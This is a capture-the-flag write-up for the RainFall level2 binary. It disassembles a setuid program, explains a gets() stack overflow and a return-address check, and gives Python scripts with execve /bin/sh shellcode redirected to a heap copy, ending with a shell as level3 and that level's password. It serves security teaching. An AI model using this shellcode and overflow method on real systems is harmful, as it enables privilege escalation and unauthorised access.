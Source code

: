 # Level2

## Walkthrough

We list the files in the current home directory.

```bash
level2@RainFall:~$ ls -la
total 17
dr-xr-x---+ 1 level2 level2   80 Mar  6  2016 .
dr-x--x--x  1 root   root    340 Sep 23  2015 ..
-rw-r--r--  1 level2 level2  220 Apr  3  2012 .bash_logout
-rw-r--r--  1 level2 level2 3530 Sep 23  2015 .bashrc
-rw-r--r--+ 1 level2 level2   65 Sep 23  2015 .pass
-rw-r--r--  1 level2 level2  675 Apr  3  2012 .profile
-rwsr-s---+ 1 level3 users  5403 Mar  6  2016 level2
level2@RainFall:~$ file level2 
level2: setuid setgid ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked (uses shared libs), for GNU/Linux 2.6.24, BuildID[sha1]=0x0b5bb6cdcf572505f066c42f7be2fde7c53dc8bc, not stripped
```

The file is owned by **level3** and has the **setuid** bit.

We list the functions inside the executable and analyze their assembly code with **GDB**.

```
(gdb) info functions
All defined functions:

Non-debugging symbols:
0x08048358  _init
0x080483a0  printf
0x080483a0  printf@plt
0x080483b0  fflush
0x080483b0  fflush@plt
0x080483c0  gets
0x080483c0  gets@plt
0x080483d0  _exit
0x080483d0  _exit@plt
0x080483e0  strdup
0x080483e0  strdup@plt
0x080483f0  puts
0x080483f0  puts@plt
0x08048400  __gmon_start__
0x08048400  __gmon_start__@plt
0x08048410  __libc_start_main
0x08048410  __libc_start_main@plt
0x08048420  _start
0x08048450  __do_global_dtors_aux
0x080484b0  frame_dummy
0x080484d4  p
0x0804853f  main
0x08048550  __libc_csu_init
0x080485c0  __libc_csu_fini
0x080485c2  __i686.get_pc_thunk.bx
0x080485d0  __do_global_ctors_aux
0x080485fc  _fini
```

There are 2 interesting functions: `main()` and `p()`.

```
(gdb) disas main
Dump of assembler code for function main:
   0x0804853f <+0>:     push   ebp
   0x08048540 <+1>:     mov    ebp,esp
   0x08048542 <+3>:     and    esp,0xfffffff0
   0x08048545 <+6>:     call   0x80484d4 <p>
   0x0804854a <+11>:    leave  
   0x0804854b <+12>:    ret
End of assembler dump.
```

The `main()` function only calls the `p()` function.

```
(gdb) disas p
Dump of assembler code for function p:
   0x080484d4 <+0>:     push   ebp
   0x080484d5 <+1>:     mov    ebp,esp
   0x080484d7 <+3>:     sub    esp,0x68
   0x080484da <+6>:     mov    eax,ds:0x8049860
   0x080484df <+11>:    mov    DWORD PTR [esp],eax
   0x080484e2 <+14>:    call   0x80483b0 <fflush@plt>
   0x080484e7 <+19>:    lea    eax,[ebp-0x4c]
   0x080484ea <+22>:    mov    DWORD PTR [esp],eax
   0x080484ed <+25>:    call   0x80483c0 <gets@plt>
   0x080484f2 <+30>:    mov    eax,DWORD PTR [ebp+0x4]
   0x080484f5 <+33>:    mov    DWORD PTR [ebp-0xc],eax
   0x080484f8 <+36>:    mov    eax,DWORD PTR [ebp-0xc]
   0x080484fb <+39>:    and    eax,0xb0000000
   0x08048500 <+44>:    cmp    eax,0xb0000000
   0x08048505 <+49>:    jne    0x8048527 <p+83>
   0x08048507 <+51>:    mov    eax,0x8048620
   0x0804850c <+56>:    mov    edx,DWORD PTR [ebp-0xc]
   0x0804850f <+59>:    mov    DWORD PTR [esp+0x4],edx
   0x08048513 <+63>:    mov    DWORD PTR [esp],eax
   0x08048516 <+66>:    call   0x80483a0 <printf@plt>
   0x0804851b <+71>:    mov    DWORD PTR [esp],0x1
   0x08048522 <+78>:    call   0x80483d0 <_exit@plt>
   0x08048527 <+83>:    lea    eax,[ebp-0x4c]
   0x0804852a <+86>:    mov    DWORD PTR [esp],eax
   0x0804852d <+89>:    call   0x80483f0 <puts@plt>
   0x08048532 <+94>:    lea    eax,[ebp-0x4c]
   0x08048535 <+97>:    mov    DWORD PTR [esp],eax
   0x08048538 <+100>:   call   0x80483e0 <strdup@plt>
   0x0804853d <+105>:   leave  
   0x0804853e <+106>:   ret    
End of assembler dump.
```

The `run()` function:
- decrements the stack pointer by `0x68` bytes
- calls `gets()` with the start of the buffer set to `ebp - 0x4c`
- performs a bitwise `AND` operation on a copy of `eip` moved to `eax`
- compares the previous value with `0xb0000000` and exits if they are equal
- calls `puts()` with the top of the stack pointer passed as first argument
- calls `strdup()` with the top of the stack pointer passed as first argument

Like in the previous level, we can exploit the executable with a **buffer overflow**, because no validation is performed in order to prevent the user from entering more than x characters during `gets()`.  
But there is no declared function to run in order to spawn a shell: we have to create our own shellcode.

In order to simplify the calculation of the required number of characters to input, we draw a diagram of the stack.

![Stack diagram](./resources/level2_stack-diagram.png)

108 - 28 = 80 bytes.

We create a **Python** script whichs:
- inserts a payload of 80 characters
- overrides `eip` with the address in memory of `eip` incremented by 4 bytes ([detailled explanation](#find-the-current-address-of-eip))
- inserts a **shellcode** that will be called thanks to the address stored in `eip`

```python
payload = "\x41" * 80
eip = "\x40\xf6\xff\xbf"
shellcode = "\x99\xf7\xe2\x8d\x08\xbe\x2f\x2f\x73\x68\xbf\x2f\x62\x69\x6e\x51\x56\x57\x8d\x1c\x24\xb0\x0b\xcd\x80"

print payload + eip + shellcode
```

```bash
level2@RainFall:~$ (python /tmp/level2/script.py; cat) | ./level2 
(0xbffff640)
whoami
```

Unfortunately our script doesn't work ([detailled explanation](#why-our-first-script-is-not-working)).  
Because all the adjacent memory addresses start with `0xbf`, we are unable to use them for storing our shellcode. After reviewing the `p()` function, we notice that it is calling `strdup()` which in return calls `malloc()` and so allocates memory on the **heap**. We use the `ltrace` command to intercept the library calls and get the location in memory of our duplicated string.

```bash
level2@RainFall:~$ ltrace ./level2 
__libc_start_main(0x804853f, 1, 0xbffff714, 0x8048550, 0x80485c0 <unfinished ...>
fflush(0xb7fd1a20)                                                                                                                                 = 0
gets(0xbffff61c, 0, 0, 0xb7e5ec73, 0x80482b5
)                                                                                                      = 0xbffff61c
puts(""
)                                                                                                                                           = 1
strdup("")                                                                                                                                         = 0x0804a008
+++ exited (status 8) +++
```

We rewrite the previous script in order to account for the changes: the shellcode is directly printed into the buffer, followed by x placeholder characters, and ended by the address in the **heap** of the string.

```python
shellcode = "\x99\xf7\xe2\x8d\x08\xbe\x2f\x2f\x73\x68\xbf\x2f\x62\x69\x6e\x51\x56\x57\x8d\x1c\x24\xb0\x0b\xcd\x80"
shellcode_len = len(shellcode)
pad = "\x41" * (80 - shellcode_len)
eip = "\x08\xa0\x04\x08"

print shellcode + pad + eip
```

```bash
level2@RainFall:~$ (python /tmp/level2.py; cat) | ./level2
���//sh�/binQVW�$�
                  AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA�
whoami
level3
cat /home/user/level3/.pass
492deb0e7d14c4b5695173cca843c4384fe52d0857c2b0718e1a521a4d33ec02
```

## Additional information

### Find the current address of `eip`

We use the `info frame` command from **GDB** in order to display advanced information about a stack frame.

```
(gdb) break p
Breakpoint 1 at 0x80484da
(gdb) r
Starting program: /home/user/level2/level2 

Breakpoint 1, 0x080484da in p ()
(gdb) info frame
Stack level 0, frame at 0xbffff640:
 eip = 0x80484da in p; saved eip 0x804854a
 called by frame at 0xbffff650
 Arglist at 0xbffff638, args: 
 Locals at 0xbffff638, Previous frame's sp is 0xbffff640
 Saved registers:
  ebp at 0xbffff638, eip at 0xbffff63c
```

The `eip` register is stored at address `0xbffff63c`.  
Because we are gonna write past this address thanks to the **buffer overflow**, we increment it by 4 bytes to know where our shellcode will be written to: `0xbffff63c` + 4 = `0xbffff640`.

### Why our first script is not working

In our first script, we are overriding `eip` with `0xbffff640` but it passes the condition written below, and therefore calls `exit()`, instead of continuing the execution.

```
   0x080484f2 <+30>:    mov    eax,DWORD PTR [ebp+0x4]
   0x080484f5 <+33>:    mov    DWORD PTR [ebp-0xc],eax
   0x080484f8 <+36>:    mov    eax,DWORD PTR [ebp-0xc]
   0x080484fb <+39>:    and    eax,0xb0000000
   0x08048500 <+44>:    cmp    eax,0xb0000000
   0x08048505 <+49>:    jne    0x8048527 <p+83>
```

| Information | Hexadecimal | Binary |
| --- | --- | --- |
| Address of our shellcode | 0xbffff640 | 10111111111111111111011001000000 |
| `AND` second operand | 0xb0000000 | 10110000000000000000000000000000 |
| After `AND` | 0xbffff640 | 10110000000000000000000000000000 |

As a result of this `AND` operation, our address is indeed equal to `0xb0000000` and passes the condition.

## Resources

- [Buffer Overflow Examples, Code execution by shellcode injection - protostar stack5](https://0xrick.github.io/binary-exploitation/bof5/#building-the-exploit)
- [BlackCloud - Shellcodes](https://blackcloud.me/shellcodes)
